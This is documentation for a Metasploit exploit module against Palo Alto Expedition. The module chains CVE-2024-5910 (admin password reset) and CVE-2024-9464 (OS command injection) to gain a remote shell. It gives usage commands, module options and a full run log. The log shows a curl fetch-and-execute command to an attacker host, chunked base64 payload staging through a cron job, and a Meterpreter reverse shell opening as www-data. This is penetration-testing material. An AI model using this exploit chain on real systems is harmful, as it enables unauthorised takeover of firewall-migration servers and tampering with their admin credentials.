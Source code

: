## Vulnerable Application

This module exploits two vulnerabilities in Palo Alto Expedition to obtain a remote shell. The first vulnerability, CVE-2024-5910, allows to
reset the password of the admin user. The second vulnerability, CVE-2024-9464, is an authenticated OS command injection.

When credentials are provided, this module will only exploit the second vulnerability. If no credentials are provided, the module will
first try to reset the admin password and then perform the OS command injection. In a default installation, commands will get executed in
the context of www-data.

Note: If no credentials are available, the module will attempt to reset the admin password. For this, the parameter RESET_ADMIN_PASSWD must
explicitly be set to true.

## Testing

The software can be obtained from
[the vendor](https://live.paloaltonetworks.com/t5/expedition/ct-p/migration_tool).

Installation instructions are available [here]
(https://live.paloaltonetworks.com/t5/expedition-articles/expedition-documentation/ta-p/215619?attachment-id=13781).

**Successfully tested on**

- Expedition v1.2.91 on Ubuntu Server 20.04.1.

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf > msf > use exploit/linux/http/paloalto_expedition_rce 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/paloalto_expedition_rce) > set RHOSTS <IP>
msf exploit(linux/http/paloalto_expedition_rce) > exploit
```

You should get a meterpreter session in the context of `www-data`.

## Options

### USERNAME
Username for authentication, if available.

### PASSWORD
Password for the associated user.
### WRITABLE_DIR
A writable location for the exploit to stage the command payload.

### RESET_ADMIN_PASSWD
If the username and password are not specified, the module will attempt to reset the admin password to the default password `paloalto`. This
is also done to authenticate and retrieve the exact version information, in case no credentials have been provided. As this alters the
configuration of the target system, the `RESET_ADMIN_PASSWD` parameter serves as a safeguard that must explicility set to true before the
reset endpoint is being invoked.

## Scenarios

Running the exploit against Expedition v1.2.91 on Ubuntu Server 20.04.1, using curl or wget as a fetch command, should result in an output
similar to the following:

```
msf exploit(linux/http/paloalto_expedition_rce) > exploit 

[*] Command to run on remote host: curl -so /tmp/zRe http://192.168.137.204:8080/qv_gAdz7yjcgH-ohM3GesA; chmod +x /tmp/zRe; /tmp/zRe &
[*] Fetch handler listening on 192.168.137.204:8080
[*] HTTP server started
[*] Adding resource /qv_gAdz7yjcgH-ohM3GesA
[*] Started reverse TCP handler on 192.168.137.204:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Admin password successfully restored to default value paloalto (CVE-2024-5910).
[+] Successfully authenticated
[*] Got csrftoken: MTczMTM4MjY0NUNRV0RkNXBXR3Vic2hkR1ZZTHBSQTd1cWY5MjVWYWIw
[*] Version retrieved: 1.2.91
[+] The target appears to be vulnerable.
[*] Command chunk size = 30
[+] Successfully authenticated
[*] Got csrftoken: MTczMTM4MjY0NnpDVDRUcXdDRWhvZ09HWDNnMFdHUW81cXU2aHppTEdE
[*] Adding a new cronjob...
[*] Staging chunk 1 of 9
[*] Running command: echo -n "echo Y3VybCAtc28gL3RtcC96UmUga" > /tmp/fglGT
[*] Staging chunk 2 of 9
[*] Running command: echo -n "HR0cDovLzE5Mi4xNjguMTM3LjIwNDo" >> /tmp/fglGT
[*] Staging chunk 3 of 9
[*] Running command: echo -n "4MDgwL3F2X2dBZHo3eWpjZ0gtb2hNM" >> /tmp/fglGT
[*] Staging chunk 4 of 9
[*] Running command: echo -n "0dlc0E7IGNobW9kICt4IC90bXAvelJ" >> /tmp/fglGT
[*] Staging chunk 5 of 9
[*] Running command: echo -n "lOyAvdG1wL3pSZSAm|((command -v" >> /tmp/fglGT
[*] Staging chunk 6 of 9
[*] Running command: echo -n " base64 >/dev/null && (base64 " >> /tmp/fglGT
[*] Staging chunk 7 of 9
[*] Running command: echo -n "--decode || base64 -d)) || (co" >> /tmp/fglGT
[*] Staging chunk 8 of 9
[*] Running command: echo -n "mmand -v openssl >/dev/null &&" >> /tmp/fglGT
[*] Staging chunk 9 of 9
[*] Running command: echo -n " openssl enc -base64 -d))|sh" >> /tmp/fglGT
[+] Command staged; command execution requires a timeout and will take a few seconds.
[*] Running command: cat /tmp/fglGT | sh && rm /tmp/fglGT
[*] Client 192.168.137.205 requested /qv_gAdz7yjcgH-ohM3GesA
[*] Sending payload to 192.168.137.205 (curl/7.68.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.137.205
[*] Meterpreter session 10 opened (192.168.137.204:4444 -> 192.168.137.205:58030) at 2024-11-11 22:37:40 -0500
[*] Check thy shell.

meterpreter > sysinfo
Computer     : 192.168.137.205
OS           : Ubuntu 20.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
```
